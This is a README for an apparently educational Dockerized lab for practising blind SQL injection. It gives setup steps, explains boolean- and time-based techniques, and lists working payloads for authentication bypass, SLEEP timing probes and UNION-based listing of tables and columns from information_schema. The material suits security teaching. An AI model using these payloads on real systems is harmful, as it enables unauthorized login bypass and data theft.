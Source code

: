 ### Blind SQL Injection - Dockerized

This project provides a Dockerized environment to simulate and test **Blind SQL Injection** attacks in a secure and isolated setup. 
The goal is to help users understand the mechanics of this attack, how it differs from traditional SQL Injection, and how to experiment with it using practical examples.

---

### What is Blind SQL Injection?

#### Difference Between SQL Injection and Blind SQL Injection

**SQL Injection** allows attackers to directly view the results of their malicious queries, such as database errors or data displayed on the webpage. It is fast and straightforward since the output is immediately visible.

**Blind SQL Injection**, however, does not show direct results. Instead, attackers infer information by observing the application’s behavior (e.g., response times or changes in output). It is slower and more complex but can still extract sensitive data with persistence.

---

### Prerequisites

To run the Dockerized application, ensure the following are installed on your system:

- [Docker](https://www.docker.com/) (required to load and run the image)  
- [Git](https://git-scm.com/) (optional, for cloning the repository)  
- System with at least **2GB of free space** (the image size is ~801 MB).  

---

### Installation and Usage

Follow these steps to set up and run the application:

#### 1. Clone the Repository

If you haven't already, clone the repository from GitHub:
```bash
git clone https://github.com/ALAOUIa/Blind_SQL_Injection-App.git
cd Abdelaziz_Blind-SQL-Injection-Dockerized
```

#### 2. Load the Docker Image

Load the prebuilt Docker image from the `.tar` file:
```bash
docker load -i Abdelaziz_Blind-SQL-Injection-Dockerized.tar
```

#### 3. Run the Docker Container

Start the container with the following command:
```bash
docker run -p 8080:80 abdelaziz/dvwa-custom
```

#### 4. Access the Application

Open your browser and navigate to:
```
http://localhost:8080
```

#### 5. Test SQL Injection Attacks

Use the examples provided in the [Examples](#examples-of-blind-sql-injection-attacks) section to test Blind SQL Injection on the vulnerable endpoints.

---

### Examples of Blind SQL Injection Attacks

Here are some sample payloads to test on the vulnerable application:

#### 1. **Boolean-Based Blind SQL Injection**

This method evaluates responses based on a condition:

- True condition (bypasses authentication):
```sql
' OR 1=1 --
```

- False condition (does not bypass authentication):
```sql
' OR 1=2 --
```

#### 2. **Time-Based Blind SQL Injection**

This method uses time delays to infer information:

- Delay the response if the condition is true:
```sql
' OR IF(1=1, SLEEP(5), 0) --
```

- Test if the username is 'admin':
```sql
' OR IF(username='admin', SLEEP(5), 0) --
```

#### 3. **Data Enumeration**

Extract database structure or content:

- List table names:
```sql
' UNION SELECT NULL, table_name FROM information_schema.tables --
```

- List column names from a specific table:
```sql
' UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name='users' --
```

---

### Disclaimer

This project is intended **solely for educational purposes**. Do not attempt these attacks on live systems or without explicit authorization. Misuse of this knowledge is unethical and may be illegal.
